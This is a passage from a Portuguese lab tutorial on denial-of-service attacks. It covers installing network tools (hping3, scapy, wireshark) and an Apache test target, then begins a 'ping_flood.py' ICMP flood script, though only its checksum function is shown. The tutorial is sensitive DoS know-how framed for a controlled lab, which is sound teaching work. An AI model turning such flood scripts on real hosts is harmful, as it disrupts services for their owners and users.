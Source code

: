 ### 1.2. Instalação de Ferramentas

Em todos os computadores:

```bash
# Atualize os repositórios
sudo apt update

# Instale as ferramentas necessárias
sudo apt install -y python3 python3-pip tcpdump wireshark tshark iperf3 hping3

# Instale bibliotecas Python necessárias
pip3 install scapy
```

No computador alvo, configure um servidor web simples para testes:

```bash
# Instale o servidor web
sudo apt install -y apache2

# Inicie o serviço
sudo systemctl start apache2

# Verifique o status
sudo systemctl status apache2
```

## Parte 2: Exemplo 1 - Ataque DoS Simples (Ping Flood)

### 2.1. Preparação do Script

Crie o arquivo `ping_flood.py` em um dos computadores atacantes:

```python
#!/usr/bin/env python3

"""
Exemplo educacional de Ping Flood (ICMP Flood) para laboratório
APENAS PARA FINS EDUCACIONAIS EM AMBIENTE CONTROLADO
"""

import socket
import struct
import time
import sys
import random
import os

# Função para calcular o checksum (necessário para cabeçalhos IP e ICMP)
def checksum(msg):
    s = 0
    # Loop de 2 em 2 bytes
    for i in range(0, len(msg), 2):
        if i + 1 < len(msg):
            w = (msg[i] << 8) + msg[i+1]
        else:
            w = msg[i]
        s = s + w

    s = (s >> 16) + (s & 0xffff)
    s = s + (s >> 16)
    # Complemento de 1
    s = ~s & 0xffff
    return s

```